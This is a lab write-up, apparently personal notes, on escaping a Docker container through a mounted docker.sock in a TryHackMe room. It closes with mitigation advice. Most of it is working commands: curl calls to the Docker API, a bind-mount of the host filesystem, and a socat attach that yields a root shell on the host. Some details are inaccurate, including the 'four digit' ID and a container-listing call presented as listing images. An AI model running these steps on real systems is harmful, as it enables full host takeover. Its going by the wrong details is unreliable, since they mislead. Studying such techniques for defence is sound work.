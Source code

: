 # via-docker-socket

## briefing

Encountered a docker container which had the `docker.sock` included in the mounted volumes. This allowed for escape of the counter by interacting with the socket via `curl` requests. 

- lab environment:
	- [https://tryhackme.com/room/linuxagency](https://tryhackme.com/room/linuxagency)
- Procedure was created by studying this blog:
	- [https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html](https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)


## procedure

> throughout this section, edit the `~/path/to/docker.sock` as needed.

### preparations

We need two things prepared:

1. we should escalate to the root user within the container we are trapped in
2. we need to serve a statically linked copy of `socat` to our target
3. we need to know what docker images are available on the target in order to prepapre the `containers.json` file. If the target has internet access, alpine is a nice image to pull down due to its small size

If our user does not have access to the docker binary to run `docker images`, we may still have permission to interact with the docker api directly via `curl`. 

The following lists available images. 

```bash
curl -XGET --unix-socket /var/run/docker.sock http://localhost/containers/json
```

Pick an available image, in our case `mangoman`, and prepare the `container.json` file.

```bash
echo -e '{"Image":"mangoman","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/host_etc"}]}' > container.json
```

Take note of the mounts in the above command, these can be modified to include the root file system. e.g. `"Source":"/", "Target":"/pwned"`. With access to the root file system of the host, arbitrary read/write is possible, therefore full compromise is achieved.


### start our malicious container

We can create a container based off of our `container.json` with:

```bash
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
```

The above command yields a response on `stdout` from the docker daemon. The response has the **four digit hex docker id** of the container we created. This id is needed for the remaining steps.

At this point, the container is **not running yet**. We can start it using the docker id by:

```bash
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/4_DIGIT_DOCKER_ID_FROM_ABOVE/start
```

Note that the above command produces **no output on the terminal**.


### request shell from docker socket 

With our container running, we can now request a shell via the docker api by interacting with the `docker.sock` using `socat`. Any tool that allows manual crafting of HTTP headers will work, `socat` is used for reliability.


Open a connection using `socat`: 

```bash
./socat - UNIX-CONNECT:/var/run/docker.sock
```

Now we can modify HTTP header manually. I recommend preparing the following payload, then copy pasting it into the terminal.

```bash
POST /containers/4_DIGIT_DOCKER_ID_FROM_ABOVE/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp


```

Note the following

- the two line breaks in the above are necessary to make the HTTP request valid
- the `4_DIGIT_DOCKER_ID_FROM_ABOVE` must be replaced 

Returns a root shell to us! We are root user of our custom container. Our custom container has the host file system mounted on it. Thus, we have full control of the host.


## conclusion

The procedure detailed here is not an exhaustive description of what is possible from this misconfiguration. In general, if it can be done through the docker API then it can be done through similar methods as detailed above. This makes sense, as the `docker.sock` is pointed at localhost, which is within the "walled garden" and not subject to robust security standards. This escape vector can be eliminated by ensuring that the `docker.sock` is never accidentally mounted when containers are deployed. A redundancy measure could be implemented that uses the `find` command in all perspective mounts and halts container deployment in the event of `docker.sock` being present.